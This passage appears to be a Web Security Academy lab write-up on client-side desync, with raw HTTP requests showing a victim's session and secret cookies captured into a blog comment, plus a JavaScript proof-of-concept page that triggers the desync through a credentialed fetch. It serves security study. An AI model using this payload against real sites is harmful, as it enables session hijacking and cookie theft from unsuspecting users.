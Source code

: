```http
Connection: keep-alive

csrf=KVKhgwp3iNnMrYRsPUlZuke6aatPyUdz&postId=9&name=foo&email=foo%40bar.lol&website=&comment=
```

Browser has been desynced and the next request will be captured inside the comment:
```http
POST /en/post/comment HTTP/1.1
Host: 0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net
Cookie: session=OApY0yXRKbmfPaSLgG0c3z1Ynr75JIcT; _lab_analytics=cqM1uEt1mQk69HhSUh5mHbEoeHOmWZodkEIb1MpyxnefEd3tDeRQisHgodiZSfrEt7dO5xti9g9Lbvd7iMNlryWY3HuSSBGZ4K8PSAbz7DuF4ospcOdhHPWhGJ9hSwefzivlHrZpiU9dBXDUdZ8g4EcAte5HyHuP7TSKfq0MZSmiFNsRbLV7xqa4PjEFnVSyySAmV1qjT04g9wZ9Ok8RbIPP3ARuURivoHISxRmxOPE0AkkslwXAORWVq9Hy5jFy
Content-Type: application/x-www-form-urlencoded
Content-Length: 800          // capture length here
Connection: keep-alive

csrf=KVKhgwp3iNnMrYRsPUlZuke6aatPyUdz&postId=9&name=foo&email=foo%40bar.lol&website=&comment=GET / HTTP/1.1\r\nHost: 0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net\r\nUser-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko)\r\n ... Cookie: victim-fingerprint=LnpKfoLiArhCQiovtuKIrk0mtidxWcIg; secret=E6oDGjjA6jrC2jjR9cjju17feBu6s7s2; session=kZXmA2bVCPDFb2SjRmiS4Ee3eEy8iLB2; _lab_analytic ...
```

PoC:
```js
<html><script>
fetch('https://0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net/', {
    method: 'POST',
    body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net\r\nCookie: session=OApY0yXRKbmfPaSLgG0c3z1Ynr75JIcT; _lab_analytics=cqM1uEt1mQk69HhSUh5mHbEoeHOmWZodkEIb1MpyxnefEd3tDeRQisHgodiZSfrEt7dO5xti9g9Lbvd7iMNlryWY3HuSSBGZ4K8PSAbz7DuF4ospcOdhHPWhGJ9hSwefzivlHrZpiU9dBXDUdZ8g4EcAte5HyHuP7TSKfq0MZSmiFNsRbLV7xqa4PjEFnVSyySAmV1qjT04g9wZ9Ok8RbIPP3ARuURivoHISxRmxOPE0AkkslwXAORWVq9Hy5jFy\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 800\r\nConnection: keep-alive\r\n\r\ncsrf=KVKhgwp3iNnMrYRsPUlZuke6aatPyUdz&postId=9&name=foo&email=foo%40bar.lol&website=&comment=',
    mode: 'cors', 
    credentials: 'include' 
}).catch(() => {
    fetch('https://0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
</script></html>
```

![](../../zzz_res/attachments/client-side_desync_resp.png)
